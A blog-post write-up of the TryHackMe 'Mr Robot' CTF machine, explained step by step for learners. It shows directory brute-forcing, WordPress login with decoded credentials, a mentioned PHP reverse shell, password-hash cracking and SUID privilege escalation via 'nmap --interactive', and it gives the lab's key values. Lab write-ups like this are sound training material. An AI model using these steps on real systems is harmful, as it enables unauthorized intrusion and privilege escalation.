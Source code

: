 ```yaml
---
tagline: mrrobotctf
title: Mr Robot CTF [Writeup]
description: One of the top-tier challenges on TryHackMe, revered as a GOAT in THM Machines.
banner: /blog/mrrobotctfbanner.jpeg/
banner_alt: redrum redrum all we know is redrum
date: '2024-03-3'
---
```


## Foreword

I've come to understand that many people don't grasp my write-ups due to a knowledge gap. Therefore, I'll be explaining every step along the way. Hope you enjoy as I spend a lot of time on these writeups!

## Nmap Scan

- What is Nmap? Nmap is a tool used for checking open ports in a server. This is typically the first step when tackling a machine. Below is the command I will be using.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.199.158
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 23:06 EST
Nmap scan report for 10.10.199.158
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.96 seconds
```

- We now know that there is a closed SSH port, an open HTTP port indicating the presence of a website accessible through a browser, and port 443 running both SSL and HTTP.

## Accessing the website

![Image showing the website](/blog/mrrobotctf/website.png 'Fig.1')

- Damn, for a machine the website is well built. After some poking and prodding, I don't seem to see anything on the homepage. Next step is a Dirsearch.

## Dirsearch

- A Directory Search involves brute-forcing to discover existing directories, helping you understand your attack surface.

```bash:Terminal
──(vipin㉿vipin)-[~]
└─$ dirsearch -u 10.10.199.158 --exclude-status 301,400,403,404,408
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/_10.10.199.158/_24-03-03_00-09-46.txt

Target: https://10.10.199.158/

[00:09:47] Starting:                                                                                  
[00:11:37] 302 -    0B  - /dashboard  ->  https://10.10.199.158/wp-admin/   
[00:11:37] 302 -    0B  - /dashboard/  ->  https://10.10.199.158/wp-admin/  
[00:11:51] 200 -    0B  - /favicon.ico                                      
[00:12:10] 200 -  504KB - /intro                                            
[00:12:15] 200 -  158B  - /license                                          
[00:12:15] 200 -  158B  - /license.txt                                      
[00:12:18] 302 -    0B  - /login  ->  https://10.10.199.158/wp-login.php    
[00:12:18] 302 -    0B  - /login/  ->  https://10.10.199.158/wp-login.php   
[00:12:55] 200 -   64B  - /readme                                           
[00:12:55] 200 -   64B  - /readme.html                                      
[00:12:58] 200 -   41B  - /robots.txt                                       
[00:13:08] 200 -    0B  - /sitemap                                          
[00:13:08] 200 -    0B  - /sitemap.xml.gz                                   
[00:13:08] 200 -    0B  - /sitemap.xml
[00:13:39] 302 -    0B  - /wp-admin/  ->  https://10.10.199.158/wp-login.php?redirect_to=https%3A%2F%2F10.10.199.158%2Fwp-admin%2F&reauth=1
[00:13:39] 200 -   21B  - /wp-admin/admin-ajax.php
[00:13:39] 500 -    3KB - /wp-admin/setup-config.php
[00:13:40] 200 -    0B  - /wp-config.php                                    
[00:13:40] 200 -    0B  - /wp-content/                                      
[00:13:41] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[00:13:41] 500 -    0B  - /wp-content/plugins/hello.php                     
[00:13:41] 500 -    0B  - /wp-includes/rss-functions.php                    
[00:13:41] 200 -    1KB - /wp-login                                         
[00:13:41] 200 -    1KB - /wp-login.php
[00:13:41] 200 -    1KB - /wp-login/                                        
[00:13:41] 302 -    0B  - /wp-signup.php  ->  https://10.10.199.158/wp-login.php?action=register
[00:13:41] 200 -    0B  - /wp-cron.php                                      
[00:13:43] 405 -   42B  - /xmlrpc                                           
[00:13:43] 405 -   42B  - /xmlrpc.php
                                                                             
Task Completed
```

## Key 1

- Looking through all the directories, *robots.txt* has the first key for us

![Image showing the robots.txt](/blog/mrrobotctf/robotstxt.png 'Fig.2')

## Key 2

- When we look in */license*, we find the string "ZWxsaW90OkVSMjgtMDY1Mgo=" which seems to be base64 (A type of encoding)

![Image showing the output](/blog/mrrobotctf/base64output.png 'Fig.3')

- Lets login with that in */login*

![Image showing we r in](/blog/mrrobotctf/dashboard.png 'Fig.4')

- And we are in! Lets exploit it.

- I started by using the same reverse shell PHP script I used in [RootMe](https://www.vipinb.xyz/blog/rootme#obtaining-the-user-flag) and editing the 404 theme file with the php code and I got user access!

```bash:Terminal
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

- Ruh roh, can't go in. Lets crack that password though.

![Image showing cracked password](/blog/mrrobotctf/hashcracked.png 'Fig.5')

```bash:Terminal
daemon@linux:/$ su robot
su robot
su: must be run from a terminal
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz             
```

- And I did get the key!

## Key 3

- I ran ```find / -user root -perm -4000 -exec ls -ldb {} \;``` to see exploitable SUID Binaries(These are applications that have sudo perms) and NMAP was one. Using GTFOBINS I found that you can run ```nmap --interactive``` and say ```!sh``` to get a shell. 

```bash:Terminal
robot@linux:/$ nmap --interactive               
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

![My Tryhackme badge yuh](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)